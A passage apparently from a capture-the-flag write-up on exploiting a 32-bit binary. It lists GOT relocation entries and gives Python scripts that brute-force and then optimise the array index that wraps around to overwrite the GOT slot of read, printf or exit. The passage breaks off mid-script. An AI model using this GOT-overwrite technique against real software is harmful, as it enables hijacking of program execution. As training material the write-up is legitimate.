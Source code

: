 ```
0804a03c R_386_JUMP_SLOT   exit
0804a040 R_386_JUMP_SLOT   __libc_start_main
0804a044 R_386_JUMP_SLOT   write
0804a048 R_386_JUMP_SLOT   getgid
0804a04c R_386_JUMP_SLOT   prctl
0804a050 R_386_JUMP_SLOT   pipe
0804a054 R_386_JUMP_SLOT   fork
0804a058 R_386_JUMP_SLOT   sprintf
0804a05c R_386_JUMP_SLOT   setresgid
```

Inspecting the code of the program reveals the functions read, printf and exit might be called after memory corruption, being able to overwrite the entry of one those should allow us to redirect execution.

A naive approach would be to calculate the write addresses for each value of i. This can be done with the following script :

```python
import sys
BASE = 0x0804A100

addresses = [
    0x0804A010, # read
    0x0804A014, # printf
    0x0804A030, # puts
    0x0804A03C, # exit
]

i = 0
while (i <= 0xFFFFFFFF):
    if i % 100000 == 0 :
        print("Trying i = {0}...".format(hex(i)))
    
    writeAddr = (BASE + (i * 0x88)) & 0xFFFFFFFF
    for addr in addresses:
        if addr == writeAddr or (addr > writeAddr and addr - writeAddr <= 8):
            print("FOUND : writeAddr {0} i = {1}".format(hex(writeAddr), i))
            sys.exit()
    i += 1

```

While this approach will find a result, it is very slow. A better approach is to take into account the fact that the value of `writeAddr` grows by 0x88 each time i is increased. We can bring back `writeAddr` around the area of the address we are targeting by increasing i so that it cycles over the 32 bit address space. To obtain this value, we divide 0xFFFFFFFF by 0x88 which gives us 31 580 641. Then it's just a matter of adjusting i upward or downward until we are between 0x88 bytes of our target address. We have now saved 31 580 640 useless computations, that's a nice optimization :-)

```python
addresses = [
    0x0804A010, # read
    0x0804A014, # printf
    0x0804A030, # puts
    0x0804A03C, # exit
]

BASE     = 0x0804A100
TARGET   = addresses[0]


i = 0
n = 0
while i <= 0xFFFFFFFF:
    i=(31580641*n)
```